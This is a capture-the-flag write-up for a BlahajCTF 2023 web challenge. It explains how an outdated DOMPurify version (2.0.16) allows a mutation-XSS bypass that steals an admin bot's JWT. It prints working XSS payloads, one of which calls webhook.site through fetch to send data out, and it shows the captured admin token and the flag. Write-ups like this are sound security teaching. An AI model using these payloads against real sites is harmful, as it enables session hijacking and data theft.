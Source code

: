 ```yaml
---
title: eXample Sending Service
date: 2023-12-05
tags:
- web
- xss
categories: BlahajCTF 2023
---
```


**Disclaimer: We did not solve the challenge but we were like 3 micrometers away from solving it**

> As part of Halogen's cybersecurity exam, Blahaj has to get the flag only accessible by the administrator. But Blahaj cannot even type with his flippers, help him pass!

This is another XSS Challenge where you send a message and the admin bot reads the message and sets a header that contains the admin jwt, which can be used to access `/flag`:

{% ccb caption:admin.js gutter1:10-29 lang:js %}
// Just your typical admin bot that reads the message
async function notify(msg) {
    // Launch the browser and open a new blank page
    const browser = await puppeteer.launch({
        args: [
            '--no-sandbox',
            '--disable-setuid-sandbox'
        ]
    });
    const page = await browser.newPage();

    // Navigate the page to a URL
    page.setExtraHTTPHeaders({
        'Authorization': 'Bearer ' + jwt.sign({
            message: msg,
            username: "admin"
        }, flag)
    });
    await page.goto('http://localhost:3000/read');
}
{% endccb %}

This XSS, however, requires a DOMPurify CVE:

{% ccb caption:app.js gutter1:36-40 lang:js %}
    const message = {
        name: DOMPurify.sanitize(req.body['name']),
        title: DOMPurify.sanitize(req.body['title']),
        body: DOMPurify.sanitize(req.body['message']),
    }
{% endccb %}

DOMPurify CVE Links:
- https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss
- https://portswigger.net/daily-swig/dompurify-mutation-xss-bypass-achieved-through-mathml-namespace-confusion
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26870

This is because in the `package.json`, dompurify is only v2.0.16
{% ccb caption:package.json gutter1:11-12 lang:json %}
  "dependencies": {
    "dompurify": "^2.0.16",
{% endccb %}

So we can construct an XSS payload that works locally!

{% ccb lang:html wrapped:true %}
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">
{% endccb %}

This would be enough to solve the challenge. However I am dumb:

When I tried testing around some javascript to xss into my https://webhook.site, I realized some of them was being caught by DOMPurify. So I decided to use [JSFuck](https://jsfuck.com/) to encode my payload, but while my XSS worked locally, it did not work on the admin, which lead me to spend most of time searching for how to circumvent this "check". However, it turns out that it was probably because my payload of jsfuck was just too big, so none of the payloads worked. If I did not encrypt my payload into JSFuck and just did something like:

{% ccb lang:html wrapped:true %}
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=fetch('https://webhook.site')&gt;">
{% endccb %}

I would have received the admin jwt:
{% ccb wrapped:true %}
Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJtZXNzYWdlIjp7Im5hbWUiOiJhIiwidGl0bGUiOiJhIiwiYm9keSI6IjxtYXRoPjxtdGV4dD48bWdseXBoPjxzdHlsZT48IS0tPC9zdHlsZT48aW1nIHRpdGxlPVwiLS0-PC9tZ2x5cGg-PGltZ1x0c3JjPTFcdG9uZXJyb3I9ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlL2Q3ZWU3ODZhLTgwODQtNDM3Ny05OGFiLWZkZDU1MmFiMmQ0ZicpPlwiPlxuPC9tZ2x5cGg-PHRhYmxlPjwvdGFibGU-PC9tdGV4dD48L21hdGg-In0sInVzZXJuYW1lIjoiYWRtaW4iLCJpYXQiOjE3MDE3NjA0MzR9.VZl-aNmRsB4bEPIvdffdS6Rl9DcxLWYkLT5ZORvGAvg 
{% endccb %}

and could have gone on to get the flag: `blahaj{d1d_y0u_f0rg0r_t0_upd4t3?}`
